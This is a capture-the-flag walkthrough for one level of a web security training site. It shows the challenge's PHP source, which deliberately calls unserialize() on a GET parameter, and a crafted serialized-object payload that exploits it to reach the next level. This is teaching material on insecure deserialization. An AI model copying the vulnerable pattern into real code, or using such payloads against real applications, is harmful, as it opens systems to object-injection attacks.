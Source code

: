 # Level-29

Level29-30 (https://matrix.voorivex.academy/the-final-fight-05f94763492df091df93a019de59fbb0/)

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-05f94763492df091df93a019de59fbb0/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

class reviving_neo {
    private $dead = true;

    function __wakeup() {
        if ($this->dead == false) {
            require_once("next.php");
            die($next);
        }
    }
}

if (isset($_GET["code"])) {
    unserialize($_GET["code"]);
}

?>
```

this is deserialization attack, so we need to provide a proper input for `code` parameter to make `$dead` false:

```text
https://matrix.voorivex.academy/the-final-fight-05f94763492df091df93a019de59fbb0/?code=O:12:"reviving_neo":1:{s:4:"dead";b:0;}
```

you will get this:

```text
/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec
```

go to:

```text
https://matrix.voorivex.academy/the-final-fight-9079c3d77eecb6699bb4a27b3cd249ec
```








